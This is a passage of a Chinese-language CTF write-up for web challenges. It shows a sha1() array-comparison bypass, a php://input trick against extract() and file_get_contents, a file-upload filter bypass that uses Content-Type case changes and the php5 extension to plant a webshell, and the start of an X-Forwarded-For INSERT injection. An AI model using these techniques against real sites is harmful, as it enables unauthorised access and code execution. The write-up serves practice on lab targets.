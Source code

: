 2.利用sha1()函数的漏洞来绕过。如果把这两个参数为数组，如：?uname[]=a&passwd[]=b，这样在第一处判断时两数组是不同，但在第二处判断时由于sha1()函数无法处理数组类型，将warning并返回false，false=flase,条件成立。</br>
post
```bash
http://120.24.86.145:8002/web7/?id=%25%36%44%25%36%31%25%37%32%25%36%37%25%36%39%25%36%45&uname[]


passwd[]=4
```
# web 8
```bash
<?php
extract($_GET);
if (!empty($ac))
{
$f = trim(file_get_contents($fn));
if ($ac === $f)
{
echo "<p>This is flag:" ." $flag</p>";
}
else
{
echo "<p>sorry!</p>";
}
}
?>
```
[file_put_contents和file_get_contents](http://blog.csdn.net/qq_34642668/article/details/68923105)
php://input可以读取没有经过处理的post请求
```bash
http://120.24.86.145:8002/web8/?fn=php://input&ac=qianye


qianye
```
# 细心

一开始bp抓包，查看包，修改包，没有什么信息，最后，随便尝试一下 ，robots.txt.发现一个不能访问的目录，访问该目录，只看到一行源码
```bash
if ($_GET[x]==$password)
```
完全靠猜，感觉没意思，？x=admin，即可得到flag.
# getwebshell
开始尝试%00截断失败。尝试。</br>
修改第一个[content-type](https://www.cnblogs.com/52fhy/p/5436673.html): 将其中的几个字母改成大写，绕过。</br>
第二个[content-type](http://blog.csdn.net/qq_38135094/article/details/69945249):改成image/jpg。</br>
php别名：php2, php3, php4, php5, phps, pht, phtm, phtml 均尝试修改一下,php5可以。
# INSERT INTO注入
```bash
error_reporting(0);

function getIp(){
$ip = '';
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
}else{
$ip = $_SERVER['REMOTE_ADDR'];
}
$ip_arr = explode(',', $ip);
```